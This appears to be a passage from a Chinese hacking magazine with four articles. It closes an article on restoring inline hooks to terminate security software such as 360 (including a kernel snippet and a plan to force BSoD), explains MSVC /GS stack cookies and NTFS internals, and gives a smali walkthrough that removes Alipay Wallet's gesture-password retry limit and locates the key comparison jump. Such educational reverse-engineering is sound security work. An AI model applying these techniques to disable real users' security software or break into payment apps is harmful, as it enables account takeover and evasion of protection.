        );

        KeResetEvent(&device_extension->request_event);

        if (device_extension->terminate_thread)
        {
            PsTerminateSystemThread(STATUS_SUCCESS);
        }
    }

    return Status;
}
```

一般思路是检测钩子被恢复时重新挂钩，但我认为还不如直接 BSoD，看似“简单粗暴”，但只要我们的钩子开机能够加载，便不会被破坏。最重要的是，当试图恢复钩子的人遭遇几次 BSoD，他的心理防线可能也“BSoD”了，一般用户是不会去恢复钩子的，这不会影响普通用户的使用。

## 结语

可以看出，这种恢复 Inline Hook 后结束安全软件进程的方法，通过前文和本文，已经被证明无论是对付腾讯还是 360，乃至于其他采用类似技术的安全软件，都是方便有效的。

以前黑防的大师们孜孜不倦地寻找着安全软件没有 Hook 的函数去结束它，但这种技术随着安全软件纷纷采用 Inline Hook，空间已经越来越小了。但是恢复起 Inline Hook 却相对更容易，正所谓“成也萧何，败也萧何”。

本文第二部分之中，在原程序的基础上，构造了属于自己的 SSDT 并 Hook ZwOpenProcess 函数依据进程名来保护进程。鉴于能力和精力，我无法去 Hook 更多关键 API。但如果我们按照这个思路去发展，Hook 一些进程、文件、注册表相关的 API，甚至可以打造属于我们自己的 HIPS。

关于钩子的保护问题，我认为是 Inline Hook 技术的“阿喀琉斯之踵”，一旦被恢复，一切便不复存在了。我所采用的方法也并不完善，其实，打开 XueTr 的“DPC”选项卡，找到我们的 DPC 定时器，选择“取消”，这个保护也就失效了。我们可以通过 DKOM 技术（Direct Kernel Object Manipulation，直接内核对象操作）来隐藏线程，甚至是隐藏驱动文件，来绕过 ARK 工具的检测，这些内容都可以在黑防的文章里面找到。然而，真正的高手不会依赖 ARK 工具，他们仍然会通过逆向和调试来获取这些信息，寻求破解之道。所以说任何的方法都不是绝对的安全，鉴于大型安全软件都没有很好的解决这个问题，我这里也只是抛砖引玉，谈一下自己不成熟的想法。

随文提供了恢复 360 安全卫士 Inline Hook 结束进程的 R0 和 R3 程序，本文修改后的 Inline Hook 程序、DPC 保护钩子程序，并在演示视频中依次使用相应程序，让大家更直观地看到实际效果。以上程序均使用 WDK 7600.16385.1 的 Windows XP x86 Checked Build Environment 和 VC++6.0 编译。

我再次声明，我的意图绝不是拿着程序对安全软件再去搞破坏，而是像黑防的主旨说的那样——“在攻与防的对立统一中实现技术突破”，若能以此为契机，促成安全软件的提升和安全技术水平的提升，则是我所乐见之事。

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## 微软 GS 缓冲区安全解决方案探讨

文/图 木羊

缓冲区溢出（buffer overflow）是一种非常大众化的 OOB（Out Of Bound，关于 OOB 类漏洞的介绍请见拙作《OOB 原理及危害浅析》），栈溢出（stack overflow）的原理和成因更是早已成了漏洞分析入门的经典案例。当我们一遍又一遍不断质问，为什么冯·诺依曼老爷子没有将代码和数据（在冯·诺依曼架构下，代码实际上可以视为一种拥有可执行权限的数据）分离，以致后辈前赴后继地栽跟头时，是不是也该稍微反思，为什么这种都已经被教材写烂，甚至被钉上历史耻辱柱的低级错误却始终保持着生机活力？

最终的结论显然是见仁见智。微软给出的答案是：因为写手是人，是人就会犯错，而且无论错误有多低级都会有人犯。根据这一结论，微软进而推导出解决缓冲区溢出的药方：从编译器层面抓起，强制 buffer 进行边界检查，通过微软自家 IDE，也即 Visual Studio（下简称 VS）为使用 C/C++ 高级程序语言编写的软件提供的 GS 选项。

在深入 GS 选项的运作机理之前，先来看看如何使用 GS 选项。相信 Windows 下编程的同学没用过 VS 的不少，但张嘴就能说出 GS 选项在哪的恐怕不多。现在 VS 的版本很多，界面也略有不同，但除了早期版本，各项设置基本都大同小异，本文就以不新不旧的 VS2012 为例说明怎么使用 GS 选项。

在 VS 上方的功能栏中，依次点击 项目 -> [工程名]属性 -> 配置属性 -> C/C++ -> 代码生成 -> 安全检查，这是一个下拉选项框，可以选择是或否（图1）。嫌这种方法繁琐的同学也可以通过在编译命令行中输入“/GS”来直接启动安全检查功能。


图1

选择之后无需额外操作，只要正常编译和生成项目就可以了，VS 会自动添入安全检测功能。顺道提个小问题：这个添入操作是由编译器（compiler）执行还是链接器（linker）执行？答案是编译器，没答上的同学只要稍微想一下编译原理应该就能马上明白过来，这里就不展开了。

现在演示 GS 选项的效果，首先写一段非常简单的 main 函数：

```cpp
int _tmain(int argc, _TCHAR* argv[])
{
    int tst[3] = {1, 3, 5};
    return 0;
}
```

写这个函数唯一值得注意的地方是必须有一个数组，因为代码中需要有一个类似缓冲区的数据结构，如果编译器没有检测到这样的结构将不会生成安全检查代码。上述函数反汇编码如下：

```asm
012F1000  55                 push    ebp
012F1001  8BEC               mov     ebp, esp
012F1003  83EC 10            sub     esp, 10
012F1006  A1 00302F01        mov     eax, dword ptr [__security_cookie]
012F100B  33C5               xor     eax, ebp
012F100D  8945 FC            mov     dword ptr [ebp-4], eax
012F1010  C745 F0 01000000   mov     dword ptr [ebp-10], 1
012F1017  C745 F4 03000000   mov     dword ptr [ebp-C], 3
012F101E  C745 F8 05000000   mov     dword ptr [ebp-8], 5
012F1025  33C0               xor     eax, eax
012F1027  8B4D FC            mov     ecx, dword ptr [ebp-4]
012F102A  33CD               xor     ecx, ebp
012F102C  E8 04000000        call    __security_check_cookie
012F1031  8BE5               mov     esp, ebp
012F1033  5D                 pop     ebp
012F1034  C3                 retn
```

先找我们的数组，也就是假想的缓冲区在哪？找数组要看两点：

- 数组是保存在栈中的，会出现堆栈寄存器（具体来说是栈底寄存器）的操作。
- 数组赋值是一个内存写入动作。

根据这两点，看到 0x012F1010、0x012F1017 和 0x012F101E 这三处有内存赋值操作，且立即数一望便知是数组的值，栈地址是向下增长的，因此可知我们的缓冲区分别在内存栈的地址依次 ebp-10、ebp-C 和 ebp-8。

然后，我们就很容易发现编译器生成的安全检查代码，有两处，一处是：

```asm
012F1006  A1 00302F01        mov     eax, dword ptr [__security_cookie]
012F100B  33C5               xor     eax, ebp
012F100D  8945 FC            mov     dword ptr [ebp-4], eax
```

这是个初始化设置，完成了向 ebp-4 指向的内存地址的写入操作，被写入的值为 ebp 与 __security_cookie 异或后的值。__security_cookie 是什么？可以简单理解为一组随机的验证码，大小为一个 DWORD。为什么选择 ebp-4 是问题的关键，先按下不讲，因为完成整套工序还需接下来一处完成验证：

```asm
012F1027    8B4D FC          mov    ecx, dword ptr [ebp-4]
012F102A    33CD             xor    ecx, ebp
012F102C    E8 04000000      call   __security_check_cookie
```

这里是取得 ebp 与 ebp-4 指向的内存地址的值，然后调用一个函数，从函数名可以猜到完成的是验证工作，为 __security_check_cookie，反汇编码略长，主要内容摘录如下：

```asm
012F1035 >   3B0D 00302F01      cmp    ecx, dword ptr [__security_cookie]
012F103B     75 02               jnz    short 012F103F
012F103D     F3:                 prefix rep:
012F103E     C3                  retn
012F103F     E9 B0020000         jmp    __report_gsfailure
(省略若干 GS 异常处理)
012F13D7     8B0D 04302F01       mov    ecx, dword ptr [__security_cookie_comp]
012F13DD     894C05 F8           mov    dword ptr [ebp+eax-8], ecx
012F13E1     68 F8202F01         push   offset GS_ExceptionPointers
012F13E6     E8 CCFEFFFF         call   __raise_securityfailure
012F13EB     C9                  leave
012F13EC     C3                  retn
```

__security_check_cookie 函数机制很简单，就是验证 ecx，也即 ebp-4 指向的内存地址的值是否为 __security_cookie，如果一致则相安无事，如果不一致，说明栈溢出了，调用 __raise_securityfailure 函数抛出 GS 异常错误。

整套流程看下来，GS 选项的条理还是很清晰的，刨去细枝末节，核心思想就是判断 ebp-4 指向的内存地址的值在执行过程中是否发生了变化，如果发生变化，则认为出现了缓冲区溢出。

现在的问题只剩下一个：为什么是 ebp-4？

在 32 位环境下，32 位正好是 4 个字节，因此以栈的内存地址 4 为间隔向下增长，我们可以把当前的堆栈情况画成一幅图，如图2所示。


图2

可以看出，栈顶的三个元素，正是数组的三个元素，也即是缓冲区，而 ebp-4 正好在这个缓冲区下方，如果发生缓冲区溢出，则势必改变 ebp-4 所指向内存地址的值（当然理论上存在溢出值正好等于原值的可能，但鉴于这种概率极小，暂且不作为考虑），GS 正是通过检测这个值来判断是否发生了缓冲区溢出。

应该说，GS 通过一种简洁明了的检测方案有效降低了缓冲区溢出的风险，体现出微软大智若愚的雄厚实力。但安全从来不是无代价的，从本例来看，在申请堆栈空间时，须额外申请 4 个字节的内存地址保存 __security_cookie 与 ebp 异或的值。

## Windows 的独家文件系统 NTFS

文/图 王晓松

对于文件的操作，每个用过电脑的人都不陌生，无论是 Windows 还是 Linux 都将文件组织成“目录+文件”的形式。如何将这些文件有效地组织起来，方便地创建、移动、复制、删除，同时有效地将文件中的数据和硬盘中的数据映射起来，这个重任就落在了文件系统的身上。我们比较熟悉的是 Windows 中的 FAT32、NTFS，Linux 的 EXT2，本文的内容将主要介绍 Windows 的独家文件系统：NTFS。

### 基础知识

- 1）什么是文件系统

可以认为文件系统是用户与磁盘之间的一个媒介，如图1所示。文件系统对上呈现给用户的是一个个的目录和文件，就像我们通常在电脑中看到的形式，如 `c:\windows\iis6.log` 的文件；而对下文件系统要与磁盘驱动打交道，将上层表示为 `c:\windows\iis6.log` 格式的文件转换为磁盘上的一个个簇（这里的簇可以理解为大号的扇区），进而将对文件的操作交付给磁盘驱动程序完成，同时文件系统还负责对文件的操作，包括创建、复制、剪切、删除，进行管理，并负责实现安全、加密、恢复能力等方面的功能。


图1 文件系统

### 2）NTFS 文件系统的特点

扇区是磁盘驱动处理的基本单元，一般为 512 个字节，但是对于文件系统来说，一个扇区相对于大的硬盘就太小了，因此将多个扇区整合成一个簇，文件系统操作的基本存储单元以簇为单位。NTFS 卷从 0 扇区开始划分簇，每簇为 1、2、4 或 8 个扇区，NTFS 以簇为基本单位分配和回收存储空间，至于这个簇具体包含几个扇区，以下表的标准进行制定。

| 卷大小 | 每簇的扇区 | 缺省的簇大小 |
|---|---:|---:|
| <=512MB | 1 | 512 字节 |
| 512MB < 大小 <=1G | 2 | 1024 字节 |
| 1G < 大小 <=2G | 4 | 2048 字节 |
| >2G | 8 | 4096 字节 |

NTFS 文件系统有很多特点，诸如多数据流、统一的索引机制、变化日志，针对单个用户的卷配额、压缩文件和稀疏文件等等，以下我们重点讲解一下多数据流。

对于用户，直观上来说，一个文件的内容要远较文件其他的一些属性重要，但是在 NTFS 看来，一个文件包含多个属性，如标准信息、属性列表、文件名等，而文件内容只是其中一个叫做 `$DATA` 的属性。但是并不是只有 `$DATA` 属性才能存放用户数据，用户可以创建属性，并给这个属性赋值，这就是所谓的多数据流。举个例子，我们可以在 Windows 的命令行界面输入 `echo hi,I’m stream1 > file.txt:stream1`，并通过命令 `more < file.txt:stream1` 查看到显示的内容为 `hi,I’m stream1`。实际上第一条指令在 `file.txt` 文件中创建了一个叫做 `stream1` 的属性，并将其属性值赋值为 `hi,I’m stream1`，因此通过第二条指令就可以查看相应的内容。以前有一些病毒就将数据以这种方式隐藏在一个用户并不知晓的属性中，从而在 Windows 用户界面中无法查看。一个文件可以有多个存储用户数据的属性，这种方式称为“多数据流”。

NTFS 中统一的索引机制就是下面要重点讲解的目录/文件管理，而其他的一些诸如压缩文件和稀疏文件、加密、恢复能力等特性这里就不赘述了，请有兴趣的读者查看相应的文档。

## NTFS 文件系统的核心：MFT

可以说 MFT（主文件表，Master File Table）是 NTFS 文件系统的核心。对于磁盘卷上的每个文件，都在 MFT 中至少有一条记录；换句话说，每条记录也都对应着一个文件。这个记录的长度为 1K，我们称之为文件记录块，其最开始的 16 条记录比较特别，如图2所示。其中第 0 条记录对应文件 `$MFT`，即将 MFT 本身作为一个文件进行管理；`$LogFile` 包含了日志信息，便于完成事务的恢复；第五项表示的是根目录，在整个文件系统的目录/文件组织结构中，以根目录作为起点；`$Bitmap` 文件是一个很大的位数组，数组中的每位对应着磁盘上的一个簇，为 0 表示该簇未使用，否则表示已使用。`$BadClus` 用于包含坏簇的信息。


图2 MFT 文件结构

文件记录块中的内容是什么呢？除了一个头部外，就是很多个属性/属性值的配对，通常这些属性包括标准信息、属性列表、文件名、数据等。其文件记录块的结构如图3所示，一个典型的小文件包含标准信息、文件名和数据。

| 文件记录头 | 属性 | 属性值 | 属性 | 属性值 |
|---|---|---|---|---|

图3 文件记录块结构

文件记录头的最开始四个字节固定为 “FILE”，所以当你查看磁盘中的二进制数据时，看到 UNICODE 编码 “FILE” 的字样，很有可能这就是一个文件记录块的开始。文件记录头中有个成员叫做 AttributeOffset，这个成员指明了第一个属性的偏移。

数据也是作为一个属性而存在的，如一个文件的内容为 “hello world”，那么在该文件记录块中，其 `$DATA` 属性的属性值为 “hello world”。前面提到，一个文件记录块的大小是有限的，只有 1K 左右，而大部分时间文件的大小要远远超过 1K，那如何是好？NTFS 中有一个叫做非驻留属性专门来解决这个问题。

首先介绍两个名词，VCN（虚拟簇号）与 LCN（逻辑簇号）。前面提到 NTFS 向下面对的就是以簇为单位的数据块，一个硬盘的簇按照顺序统一编号，定义为 LCN；而 VCN 则与文件相关，定义的是每个文件中簇的编号，如图4所示。


图 4 VCN 与 LCN 的映射

设 NTFS 定义的簇的大小为 4K，而数据有 16K，那么 NTFS 系统会在空闲的 LCN 中找到连续的 4 个簇，并在数据属性中说明这是一个非驻留属性，其 VCN 开始的 4 个簇与 LCN 开始的 4 个簇相对应。而有时存储一个文件的数据需要更多的簇，而在 LCN 中并没有这样连续的簇，那么就需要将数据进行分解，分成多个游程，以期待将这些数据放在其中。对于非驻留属性中的 run，很多参考书中翻译为“行串”“片段”，但是我更愿意翻译为“游程”，因为通信出身，在通信中专门有个术语“run”被翻译成“游程”，用来表示一段连续数据的长度。

对于一个大于 1K 的文件，使用非驻留属性的话，其数据属性变为如图 5 所示。一个游程通常表示为 `<VCN, LCN, Length>` 的形式。从图 5 可以很明显地看到，每个游程对应的 LCN 都是连续的，即在物理磁盘上都是连续存放的。同时需要注意的是，游程中的内容是放在文件记录块中的，而文件的数据是放在各个游程描述的簇中的。可以将这个游程看做一个指针，也可以看做是一个索引。


图 5 包含非驻留属性的文件记录块

## 统一的索引机制

### 1）什么是 B+树

在讲 NTFS 中的统一索引机制前，我们不得不讲述 B+树的内容。B 树一般我们理解为平衡树（Balance Tree），通常来说，指的是一个二分叉的树，有数据结构基础的读者并不陌生。而 B+树与普通 B 树最大的区别在于它是多叉的，如图 6 所示。将图 6 中的字符进行如下的组织：以 C、H、O 作为第一级的节点，A、B 由于顺序上小于 C，所以放于 C 的左侧；D、E、G 的字母顺序大于 C 但是小于 H，所以放于 H 左侧；同样道理安放 I、J、P、Q 作为最后两个节点，放于结尾节点的左侧。显然，这样组织的结果是相对二叉树，在节点相同的情况下，树的深度得到了有效地控制。查找的顺序也很简单，以查找 E 为例，先在第一级进行查找，先与 C 进行对比，发现大于 C，那么再与 H 对比，小于 H，所以在 H 的左侧节点查找，与 D 对比后，找到 E 节点。


图 6 B+树的示例

### 2）Windows 中的目录结构


图 7 目录+文件的结构

对于如图 7 所示的目录结构，我们并不陌生。在根目录下四个平行的目录，其中目录 A 下有文件 B、C、D、E，在我们的脑海里是一个树状系统。但是在 NTFS 中，目录与文件的地位是平等的，区别就是目录作为文件，其内容为目录下各个文件或者目录的索引。如果我们查看图 7 中目录树在 MFT 中的存储形式，会看到 MFT 中目录 A 及文件 B、C、D、E 的组织是扁平的，只是在目录 A 下有指向文件 B、C、D、E 在 MFT 中位置的索引。下面我们再深入 NTFS 内部，看看这样一个庞大的树状结构是依据怎样的原则逐步构建起来的。

在 NTFS 的属性定义中有 3 个属性，分别为 index_root、index_allocation 和 Bitmap，是专门用于目录文件的管理。如果一个目录下面的文件很少，那么在该目录对应的文件记录块中只有 index_root 属性，在该属性中记录了该目录下所有文件对应的 MFT 中的索引号，通过读取 index_root 值，可以找到该目录下所有的文件；但是当目录下的文件增多时，NTFS 文件系统首先将这些文件按照名称的顺序进行排序，然后组织成一个 B+树的形式。以图 6 为例，将 C、H、O 三个节点放于 index_root 属性中。注意 index_root 属性是驻留的，即永远在文件记录块中。同时另外开辟四个索引缓冲区，用于存放 `<A, B>`、`<D, E, G>`、`<I, J>` 及 `<P, Q>`。这里的索引缓冲区可以理解为几个物理簇，那么如何知道 `<A, B>`、`<D, E, G>`、`<I, J>` 及 `<P, Q>` 放在哪个物理簇中呢？这是由属性 index_allocation 和 Bitmap 共同完成的。首先这两个属性都是非驻留的，在 index_allocation 中以游程的形式存放 `<A, B>`、`<D, E, G>`、`<I, J>` 及 `<P, Q>` 各个节点的信息，如第一个游程表示的是 `<A, B>` 存放的 VCN—LCN 的映射，第二个游程表示的是 `<D, E, G>` 存放的 VCN—LCN 的映射，依次类推。与前面讲到的数据的非驻留存储类似，只是这里存储的是各个文件的索引，而不是通常的数据罢了。而 Bitmap 属性则记录了在各个索引缓冲区中 VCN 的使用情况。一个典型的结构如图 8 所示。


图 8 B+树的目录结构

### 3）文件操作的背后

前面提到，用户在使用文件时使用最多的操作是创建、复制、剪切、删除。下面我们先介绍一个创建文件的例子，再说明其余三个操作背后文件系统做的工作，以此来加深对 NTFS 文件系统结构的理解。比如，我们想在某个目录（如 `D:\directory\`）下创建一个文件 `A.TXT` 时，通常有以下步骤：

- 通过 MFT 中的根目录（第五项文件记录块），找到根目录；
- 定位 index_root 属性，查看 directory 目录对应的文件记录块，这里如果根目录下的文件较多时，会通过前面讲解的 B+树进行搜索；
- 根据元数据文件 `$Bitmap` 定位 MFT 中哪个文件记录块空闲，标记为使用，用于存储 `A.txt` 文档，并记录下来；
- 在 directory 目录的文件记录块中操作 `$index_root`、`$index_allocation`、`$BITMAP` 属性，指向新创建的 `A.TXT` 的文件记录块；
- 在该文件记录块中填写文件的属性，如标准信息、文件名称等内容，完成一个文件的创建。

此时回头看，会发现元数据文件 `$Bitmap`、directory 目录的文件记录块的属性发生了变化。综合起来，创建一个文件可以分为以下三步骤：分配并初始化一个 MFT 记录；将文件名加入到目录索引中；设置位图。

理解了前面创建文件的过程，那么复制的过程就不复杂了。复制的动作相当于在目标目录中创建一个文件，只是这个文件的内容是从源文件中拷贝而来。同时，我们经常会发现剪切一个文件要比复制一个文件要快，这是因为复制相当于重新创建一个文件，而剪切则要简单得多，简化许多，因为文件的文件记录号并没有改变，改变的只是在源目录的索引中删除该文件，在目的目录中的索引中添加该文件。那么删除一个文件呢？删除一个文件，文件系统会回收该文件的文件记录块，如果该文件还有非驻留属性，系统也会回收，并且在 `$Bitmap` 文件中将相应的位置置 0，同时包含该文件的目录，也要删除该文件的目录项。

## 小结

NTFS 作为 Windows 独有的操作系统，具有很多独有的特点。这篇文章在介绍了 NTFS 的基本架构后，重点分析了其中对目录/文件的管理，并讲解了用户进行文件操作时 NTFS 背后所做的工作。

（完）

## 支付宝钱包手势密码破解实战

文/图 莫灰灰

随着移动互联网的普及以及手机屏幕越做越大等特点，在移动设备上购物、消费已是人们不可缺少的一个生活习惯了。随着这股浪潮的兴起，安全、便捷的移动支付需求也越来越大。因此，各大互联网公司纷纷推出了其移动支付平台。其中，用得比较多的要数腾讯的微信和阿里巴巴的支付宝钱包了。就我而言，平时和同事一起出去 AA 吃饭，下班回家打车等日常生活都已经离不开这两个支付平台了。

正所谓树大招风，移动支付平台的兴起，也给众多一直徘徊在网络阴暗地带的黑客们又一次重生的机会。因为移动平台刚刚兴起，人们对移动平台的安全认知度还不够。就拿我身边的很多朋友来说，他们一买来手机就开始 root，之后卸载预装软件，下载游戏外挂等等。今天，我们就以破解支付宝钱包的手势密码为例，来深入了解下 Android 系统上的一些安全知识，希望能引起人们对移动平台安全的重视。

在此申明：以下文章涉及的代码与分析内容仅供 Android 系统安全知识的学习和交流使用，任何个人或组织不得使用文中提到的技术和代码做违法犯罪活动，否则由此引发的任何后果与法律责任本人概不负责。

本文的实验环境为红米 TD 版，MIUI-JHACNBA13.0（已越狱）、支付宝钱包 8.1.0.043001 版。

使用工具包括 APK IDE、Smali.jar、Ddms、SQLite Expert、应用宝。

## 准备阶段

安装完支付宝钱包之后，运行软件，我这里选择淘宝账号登录，界面如图 1 所示。


图 1

登录之后，设置手势密码，如图 2 所示。


图 2

完成上述两步之后，退出支付宝进程。用腾讯应用宝定位到支付宝的安装目录 `\data\data\com.eg.android.AlipayGphone`，查看目录结构，如图 3 所示。


图 3

## 实战开始

看到图 3 所示的目录结构，猜测 databases 目录下的 `*.db` 数据库文件就是用来保存上述我们设置的密码的。因此，我们使用应用宝的导出功能将 databases 目录导出到本地。用 SQLite Expert 工具打开所有的 db 文件，分析发现 alipayclient.db 数据库中的 userinfo 表中保存了用户名、输入错误次数、手势密码等详细信息，如图 4 所示。其中的 gestureErrorNum 字段应该就是保存了手势密码输入错误的次数了，很明显这里已经被加密了。


图 4

使用 APK IDE 对支付宝的安装包进行解包分析。解包完成之后，搜索 setgestureErrorNum 字样，结果如图 5 所示。


图 5

经过大致分析，UserInfoDao.smali 文件中的 addUserInfo 函数比较可疑，截取其中一段设置手势密码错误次数的代码如下：

```smali
invoke-virtual {v0}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->getGestureErrorNum()Ljava/lang/String;
move-result-object v1
# 调用 getGestureErrorNum 函数获得未加密的错误次数，并保存到 v1 寄存器
invoke-virtual {v0}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->getUserId()Ljava/lang/String;
move-result-object v2
# 调用 getUserId 函数获得 user id，并保存到 v2 寄存器
invoke-static {v2}, Lcom/alipay/mobile/security/gesture/util/GesutreContainUtil;->get8BytesStr(Ljava/lang/String;)Ljava/lang/String;
move-result-object v2
# 获取 user id 的前 8 个字节，保存到 v2 寄存器
invoke-static {v1, v2}, Lcom/alipay/mobile/common/security/Des;->encrypt(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;
move-result-object v1
# 以 user id 的前 8 字节作为 key，调用 des 加密错误次数字符串，并保存到 v1 寄存器
invoke-virtual {v0, v1}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->setGestureErrorNum(Ljava/lang/String;)V
# 调用 setGestureErrorNum 函数，将加密的字符串保存
```

通过对上述代码的分析得知，第一次 getGestureErrorNum 的调用取出的错误次数应该是未加密的字符串，添加 log 代码验证，代码如图 6 所示。


图 6

保存修改的 smali 文件，重新编译打包，安装完成之后，输入错误的手势密码，log 输出数字依次递增。最后一次输入正确的手势密码，错误次数重新归 0。LogCat 捕捉到的日志如图 7 所示。

| Level | Time | PID | TID | Application | Tag | Text |
|---|---|---|---|---|---|---|
| V | 05-14 16:12:02.768 | 17607 | 17607 | com.eg.android.AlipayGphone | com.eg.android.AlipayGphone | 1 |
| V | 05-14 16:12:04.665 | 17607 | 17607 | com.eg.android.AlipayGphone | com.eg.android.AlipayGphone | 2 |
| V | 05-14 16:12:06.564 | 17607 | 17607 | com.eg.android.AlipayGphone | com.eg.android.AlipayGphone | 3 |
| V | 05-14 16:12:10.842 | 17607 | 17607 | com.eg.android.AlipayGphone | com.eg.android.AlipayGphone | 4 |
| V | 05-14 16:12:12.992 | 17607 | 17607 | com.eg.android.AlipayGphone | com.eg.android.AlipayGphone | 0 |

图 7

程序分析到这里，我不禁猜测，在错误次数未加密前，把 v1 寄存器的值设置为字符串“0”是不是就可以骗过支付宝而可以无限次地输入手势密码了呢？于是乎，我又开始了下面的验证，代码如图 8 所示。


图 8

编译打包，重新安装支付宝，输入错误的手势密码，发现 5 次错误之后程序还是让我们重新登录。看来我们这里设置错误次数已经晚了，于是乎，继续搜索调用 addUserInfo 函数来加密 gestureErrorNum 的地方。其中，AlipayPattern.smali 文件的 settingGestureError 函数引起了我的注意。函数代码如下：

```smali
.method public settingGestureError(Lcom/alipay/mobile/framework/app/ui/BaseActivity;Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;I)V
    .locals 1
    new-instance v0, Ljava/lang/StringBuilder; # 初始化 StringBuilder 实例
    invoke-direct {v0}, Ljava/lang/StringBuilder;-><init>()V
    invoke-virtual {v0, p3}, Ljava/lang/StringBuilder;->append(I)Ljava/lang/StringBuilder;
    # p3 是一个 I 类型的整型变量，调用 StringBuilder.append 赋值
    move-result-object v0
    invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
    move-result-object v0    # 调用 toString 函数转换成字符串类型，赋给 v0
    invoke-virtual {p2, v0}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->setGestureErrorNum(Ljava/lang/String;)V
    # 调用 setGestureErrorNum 设置未加密的错误次数字符串
    invoke-static {}, Lcom/alipay/mobile/framework/AlipayApplication;->getInstance()Lcom/alipay/mobile/framework/AlipayApplication;
    move-result-object v0
    invoke-static {v0}, Lcom/alipay/mobile/framework/service/ext/dbhelper/SecurityDbHelper;->getInstance(Landroid/content/Context;)Lcom/alipay/mobile/framework/service/ext/dbhelper/SecurityDbHelper;
    move-result-object v0
    invoke-virtual {v0, p2}, Lcom/alipay/mobile/framework/service/ext/dbhelper/SecurityDbHelper;->addUserInfo(Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;)Z
    # 调用 SecurityDbHelper.addUserInfo 函数加密、更新数据库
    return-void
.end method
```

分析到这里，想必这里才是最原始的设置手势输入错误次数的地方吧。修改 p3 的值为 0，测试代码如图 9 所示。


图 9

继续打包、编译、测试。随意输入错误的手势密码，支付宝始终显示“密码错误，还可以输入 5 次”字样，如图 10。

#### Android 远程监控技术


图 10

至此，手势密码中的错误次数限制已经被我们解除。理论上来说，我们可以使用穷举法来获取支付宝的手势密码。但是，作为一名黑客来说，使用穷举法来获得密码这种方式，显然是在浪费生命和金钱。

### 越战越勇——查找关键跳转

只破解手势输入错误次数限制显然是不够的。下面我们从手势密码的存储展开来说。查看 alipayclient.db 数据库的 userinfo 表可知，手势密码的存储字段为 gesturePwd，搜索 getGesturePwd 函数得到如图 11 的结果。

```text
（代码检索结果截图：多处调用 getGesturePwd()，包含 smali 路径与 invoke-virtual 行）
```

图 11

搜索到的结果比较多，根据前面对于手势密码错误次数限制的分析，这里可以排除几个文件，例如 UserInfoDao.smali 文件，它主要用来保存一些用户动态的信息，可暂时跳过。剩下的 smali 文件，我们一个个分析过来。在这里我想说的一点是，逆向分析确实是很考验一个人耐心和细心的一件事情。一个闪失就会迷失在浩瀚的汇编代码中，但是等到你找到关键的调用点，分析出核心的算法时，那么心境会豁然开朗，真是有种“踏破铁鞋无觅处，得来全不费工夫”的感觉。

经过我的仔细分析，e.smali 文件最有可能是输入密码的地方，双击上面 e.smali 文件的 LINE 47 行，跳转到的是 a 函数。由于函数比较长，只贴关键部分，代码如下：

```smali
.method public final a(Ljava/lang/String;)V
.locals 4
invoke-virtual {p1}, Ljava/lang/String;->length()I #获取输入字符串的长度
move-result v0
sget v1, Lcom/alipay/mobile/security/gesture/component/LockView;->MINSELECTED:I
if-lt v0, v1, :cond_1 #比较字符串长度
:try_start_0
iget-object v0, p0, Lcom/alipay/mobile/security/gesture/component/e;->a:Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo; #获取 UserInfo 对象
invoke-virtual {v0}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->getGesturePwd()Ljava/lang/String; #调用 UserInfo 的 getGesturePwd 函数获得加密过的正确的手势密码
move-result-object v0
invoke-virtual {v0}, Ljava/lang/String;->length()I #取加密过的正确密码的长度
move-result v0
const/16 v1, 0x20
if-le v0, v1, :cond_0 #长度是否小于 32
new-instance v0, Ljava/lang/StringBuilder;

invoke-direct {v0}, Ljava/lang/StringBuilder;-><init>()V #初始化 StringBuilder 对象
invoke-virtual {v0, p1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder; #将输入的明文手势密码赋值给 StringBuilder 对象
move-result-object v0
iget-object v1, p0, Lcom/alipay/mobile/security/gesture/component/e;->a:Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;
invoke-virtual {v1}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->getUserId()Ljava/lang/String; #调用 UserInfo 的 getUserId 函数获取 user id
move-result-object v1
const-string/jumbo v2, "userInfo"
invoke-static {v1, v2}, Lcom/alipay/mobile/common/security/Des;->encrypt(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String; #调用 des 加密函数，以“userInfo”为 key，加密 user id 字符串
move-result-object v1
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
#将加密好的 user id 字符串附加到 StringBuilder 对象上
move-result-object v0
invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
move-result-object v0
# StringBuilder 对象（输入明文手势密码 + 加密后的 user id）转字符串，并赋值给 v0 寄存器
invoke-static {v0}, Lcom/alipay/mobile/security/gesture/util/SHA1;->sha1(Ljava/lang/String;)Ljava/lang/String;
#调用静态的 sha1 函数，计算出一个 hash 值
move-result-object v0
:goto_0
iget-object v1, p0, Lcom/alipay/mobile/security/gesture/component/e;->a:Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;
invoke-virtual {v1}, Lcom/alipay/mobile/framework/service/ext/security/bean/UserInfo;->getGesturePwd()Ljava/lang/String; #调用 UserInfo 的 getGesturePwd 函数获得加密过的正确的手势密码
move-result-object v1
invoke-virtual {v0, v1}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z
#比较输入的密码和正确的密码
move-result v0
if-eqz v0, :cond_1
```

很显然，上面这个 if-eqz 是关键，如果比较函数 equals 返回 false，那么跳转到 cond_1 标签处。cond_1 标签处的主要任务就是取当前输入错误的次数，在这个基础上加上 1，然后调用 settingGestureError 函数重新设置错误次数。如果两个字符串相等，那么调用 settingGestureError 函数把错误次数重新设置为 0。

下面为了验证我们的猜测，进行如下两步操作：

- 1）在 a 函数中加入类似如图 12 的打印日志代码，这里没有全部截图下来，其他地方留给读者自行添加。


图 12

